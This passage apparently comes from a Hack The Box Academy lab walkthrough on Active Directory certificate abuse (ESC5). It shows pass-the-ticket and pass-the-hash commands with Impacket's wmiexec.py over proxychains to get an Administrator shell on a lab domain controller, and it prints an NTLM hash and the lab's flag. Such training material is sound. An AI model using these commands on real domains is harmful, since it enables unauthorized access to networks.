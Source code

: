 With the TGT for the `Administrator` user attained, students need to `pass-the-ticket` with `wmiexec.py` to gain remote code execution on `lab-dc.lab.local`, making sure set the environment variable `KRB5CCNAME` to `administrator.ccache` before tunneling the command with `proxychains`:

Code: shell

```shell
KRB5CCNAME=administrator.ccache proxychains -q wmiexec.py -k -no-pass lab-dc.lab.local -dc-ip 172.16.19.3
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ KRB5CCNAME=administrator.ccache proxychains -q wmiexec.py -k -no-pass lab-dc.lab.local -dc-ip 172.16.19.3

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
dc\administrator
```

When reading the contents of the file `C:\ESC5\flag.txt`, students will attain the flag `HTB{ESC5_ACC3S5_ABUS3}`:

Code: shell

```shell
more "C:\ESC5\flag.txt"
```

```
C:\>more "C:\ESC5\flag.txt"

HTB{ESC5_ACC3S5_ABUS3}
```

Alternatively, students can `pass-the-hash` `6e599ada28db049c044cc0bb4afeb73d` with `wmiexec.py` and exfiltrate the contents of the file `C:\ESC5\flag.txt` directly:

Code: shell

```shell
proxychains -q wmiexec.py -no-pass -hashes :6e599ada28db049c044cc0bb4afeb73d administrator@172.16.19.3 "more C:\ESC5\flag.txt"
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ proxychains -q wmiexec.py -no-pass -hashes :6e599ada28db049c044cc0bb4afeb73d administrator@172.16.19.3 "more C:\ESC5\flag.txt"

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
HTB{ESC5_ACC3S5_ABUS3}
```
